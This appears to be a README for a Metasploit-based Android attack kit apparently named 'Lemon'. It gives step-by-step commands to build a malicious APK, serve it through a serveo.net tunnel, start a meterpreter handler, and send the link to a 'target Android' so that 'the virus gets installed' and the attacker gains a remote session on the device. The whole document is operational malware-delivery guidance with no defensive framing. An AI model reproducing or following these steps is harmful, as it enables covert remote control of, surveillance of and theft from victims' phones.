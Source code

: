 .Requirements :-
1. Metasploit-Framework

Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

How to use :-

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP comnections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Now you can mess with the Android device using the commnands listed.
